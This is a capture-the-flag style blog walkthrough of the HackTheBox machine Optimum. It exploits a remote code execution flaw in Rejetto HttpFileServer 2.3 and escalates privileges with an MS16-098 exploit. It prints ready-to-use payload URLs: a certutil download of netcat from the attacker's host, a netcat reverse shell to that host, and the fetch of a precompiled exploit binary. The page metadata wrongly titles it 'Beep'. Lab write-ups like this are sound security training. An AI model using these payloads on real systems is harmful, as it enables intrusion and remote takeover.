 ```yaml
---
layout: default
title: HackTheBox - Beep Writeup
permalink: /htb/optimum
---
```


# Optimum

> **Name:** Optimum
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Optimum](https://www.hackthebox.eu/home/machines/profile/6) was released on 18 Mar 2017 and it is an easy rated Windows box, which makes it a good place for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes during a break from active boxes. When I originally completed this I vaguely remember having issues getting the privilege escalation to work. So this is a good opportunity to revisit and figure out what was causing those issues. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.8 -sC -sV -v -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/optimum/scan-results.png)

So yeah! Not a lot to go on so I guess we need to dive into this web app.


## Enumeration

The first thing I like to do with a web app is to have a browse around as a user and see what there is. In this case it is just a simple file server. 

![File Server]({{site.url}}/assets/optimum/fileserver.png)

By clicking on the server information link at the bottom of the page it directs you to the rejetto website. Valuable information, as now we know it is a rejetto httpfileserver 2.3. It is worth checking if this has any known public exploits. 
![Searchsploit]({{site.url}}/assets/optimum/searchsploit.png)

Quite a few for the version in use, and most of them are remote command execution as well. This could be just the attack path needed to get a foothold. A quick look at a few of the exploits give an idea of what the vulnerability is and how it is exploited. With 34668.txt result from searchsploit giving a good overview of the problem.

>issue exists due to a poor regex in the file ParserLib.pas
>
>```function findMacroMarker(s:string; ofs:integer=1):integer;
>begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;```
>
>it will not handle null byte so a request to 
>
>```http://localhost:80/?search=%00{.exec|cmd.} ```
>
>will stop regex from parse macro , and macro will be executed and remote code injection happen.

This means that if a crafted search query is performed it is possible to break the function and execute your own code. How the other scripts exploit this is by creating a Visual Basic script to download netcat from a webserver in the first request, then a second request to execute that script, and finally a third request to run the netcat reverse shell command. 

Now rather than diving straight into using one of those scripts lets have a play with it manually and get it working! A nice simple method I use to confirm code execution is to get the target to run the ping command, and watch for the response in tcpdump or wireshark. Looking at the information about the exploit, this should be as easy as:

```https://10.10.10.8/?search=%00{.exec|ping.exe 10.10.14.9.}```

Just remember that if you are not submitting this in a browser to URL encode the space. When you check tcpdump or wireshark you should see the ICMP request and responses. 

![wireshark]({{site.url}}/assets/optimum/wireshark.png)

So with code execution proven, now it is a simple matter of getting a shell up and running. First up is getting netcat uploaded, in previous write-ups I have used a SMB share to get files onto a target. This time we will use certutil. A native binary on Windows which is used for certificate management, but it has the rather handy feature of being able to download files when you use the command with the following flags:

``` certutil -urlcache -split -f <hosting location> <output file> ```

With this exploit the command looks like this:

``` http://10.10.10.8/?search=%00{.exec|certutil.exe -urlcache -split -f http://10.10.14.9/nc.exe C:\windows\temp\nc.exe.} ```

Where the output directory is somewhere that tends to be world writeable. Now all that is needed is to setup a webserver to host the file. My go to is a simple python based one, and I recently moved to the Python3 implementation which can be used with the following command:

``` python3 -m http.server 80 ```

This will setup a webserver on port 80 in the directory you run the command from, so make sure you don't drop it in your root directory or anything silly like that! Now the certutil command can be ran, and the webserver can be monitored for the incoming request. 

![Web Server]({{site.url}}/assets/optimum/simpleserver.png)

Then a listener can be setup using netcat, and the exploit used to launch the reverse shell with the following command:

``` http://10.10.10.8/?search=%00{.exec|C:\windows\temp\nc.exe -e cmd.exe 10.10.14.9 443.} ```

Which will instantly give a shell with command prompt.

![User Shell]({{site.url}}/assets/optimum/user-shell.png)

Running ``` syteminfo ``` gives a quick overview of the target, and in this case we can see it is Server 2012 R2 and has had 31 hotfixes installed. 

![Systeminfo]){{site.url}}/assets/optimum/systeminfo.png)

If you want to get your hands really dirty you can sit and manually check which patches haven't been applied and see if any of those fix privilege escaltion vulnerabilities. Or you can use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which will take the output of Systeminfo and work out what is missing. This gives an indication of what vulnerabilities are potentially present on the system.

As many updates have been released since this box was launched there is going to be a lot of output with these tools. But the intended path is going to be something from before Mar 2017 in all likelihood. This is a bigger issue if you use the newer version - [wesng](https://github.com/bitsadmin/wesng) which is more useful for modern OS like Windows 10. 

The output from this is huge! Now it's a case of going through the results and finding which one is the best fit. This can take some time, but odds are a lot of these will work. 

The one I used is MS16-098 and can be found in searchsploit. 

![Searchsploit]({{site.url}}/assets/optimum/searchsploit-privesc.png)

Checking over 41020.c there is a comment at the top that links to a pre-compiled binary for the exploit and as this is one of the curated Offensive Security exploits there is an associated level of trust you can place in it, as normally I wouldn't recommend blindly downloading and executing exploits you haven't checked over and compiled yourself. Just so you don't break something!

The binary can be got from:

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

This can be done quickly from the command prompt with curl. 

![Download Exploit]({{site.url}}/assets/optimum/exploit-download.png)

It is then transferred to the target using the certutil method that was used previously. 

``` certutil -urlcache -split -f http://10.10.14.9/ms16-098.exe C:\Users\kostas\Desktop\ms16-098.exe ```

This can then be executed to give us that lovely System shell!

![Privesc]({{site.url}}/assets/optimum/privesc.png)

No issues this time around with the privesc, I have a feeling that the first time around I used a different exploit and probably got stuck in a 32bit vs 64bit issue without realising!
